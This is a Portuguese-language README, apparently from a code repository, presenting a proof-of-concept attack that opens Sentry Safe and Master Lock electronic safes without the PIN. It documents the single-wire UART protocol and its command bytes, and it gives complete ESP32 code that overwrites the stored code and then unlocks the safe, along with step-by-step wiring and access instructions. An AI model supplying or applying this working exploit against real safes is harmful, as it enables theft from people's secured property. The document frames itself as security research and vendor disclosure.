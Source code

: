 # How to open a Sentry Safe or Master Lock electronic safe with ESP32

## ⚠️ Aviso
Este projeto é apenas para **fins educacionais e de pesquisa de segurança**.  
Não use de forma ilegal. Sempre tenha permissão do dono do equipamento.

---

## TL;DR

Uma vulnerabilidade permite abrir cofres eletrônicos da Sentry Safe e Master Lock **sem conhecer o código PIN**.

[Demo com flipper zero](https://www.youtube.com/shorts/D-jm8mZgeCM)

A fabricante foi notificada mas não respondeu.  
Aqui, adaptamos a prova de conceito para rodar em um **ESP32**.

---

## História

Tudo começou capturando sinais entre a placa do teclado e a placa da fechadura do cofre.  
Descobriu-se que a comunicação usa **UART a 4800 baud** sobre um único fio (C1).

Foi possível mapear os **comandos** enviados e descobrir que é possível **sobrescrever o código** sem saber o código anterior.

---

## Conexão de fios

| Cofre  | ESP32           |
|--------|-----------------|
| GND    | GND             |
| C1     | GPIO 4 (TX)     |

> **Nota:** O fio **C1** é ligado no pino **TX** configurado no código do ESP32.  
> Não é necessário ligar a alimentação do cofre no ESP32 — apenas compartilhar o GND e enviar o sinal no C1.

---

## Comandos conhecidos

| Command byte | Função                       |
|--------------|------------------------------|
| 0x71         | Tentar abrir (try unlock)    |
| 0x75         | Salvar novo código (slot 1)  |
| 0x76         | Salvar novo código (slot 2)  |
| 0x74         | Iniciar mudança de código 1  |
| 0x72         | Iniciar mudança de código 2  |
| 0x78         | Boot                         |

O checksum é calculado como:
checksum = command + a + b + c + d + e

---

## Código ESP32 (Prova de Conceito)

```cpp
#include <Arduino.h>

// Pino TX ligado no fio C1
#define PIN_C1 4

HardwareSerial C1Serial(1);

void send_request(int command, int a, int b, int c, int d, int e) {
  int checksum = (command + a + b + c + d + e);

  // Pulso de wake-up
  pinMode(PIN_C1, OUTPUT);
  digitalWrite(PIN_C1, LOW);
  delayMicroseconds(2750);
  digitalWrite(PIN_C1, HIGH);
  delayMicroseconds(200);

  // Comunicação UART a 4800 baud
  C1Serial.begin(4800, SERIAL_8N1, -1, PIN_C1);
  C1Serial.write((byte)0x00);
  C1Serial.write(command);
  C1Serial.write(a);
  C1Serial.write(b);
  C1Serial.write(c);
  C1Serial.write(d);
  C1Serial.write(e);
  C1Serial.write(checksum);
  C1Serial.flush();
  C1Serial.end();

  // Pino em nível alto no fim
  pinMode(PIN_C1, OUTPUT);
  digitalWrite(PIN_C1, HIGH);
}

void reset_code(int a, int b, int c, int d, int e) {
  send_request(0x75, a, b, c, d, e);
}

void try_code(int a, int b, int c, int d, int e) {
  send_request(0x71, a, b, c, d, e);
}

void setup() {
  // Define novo código 1-2-3-4-5 e tenta abrir
  reset_code(1, 2, 3, 4, 5);
  delay(1000);
  try_code(1, 2, 3, 4, 5);
}

void loop() {}
```
# Como usar
Retire o parafuso frontal do cofre para acessar os fios internos.

Conecte o GND do ESP32 ao fio preto do cofre.

Conecte o GPIO 4 (TX) do ESP32 ao fio C1 (geralmente verde).

Alimente o ESP32 e o código enviará o comando para definir um novo código e abrir o cofre.

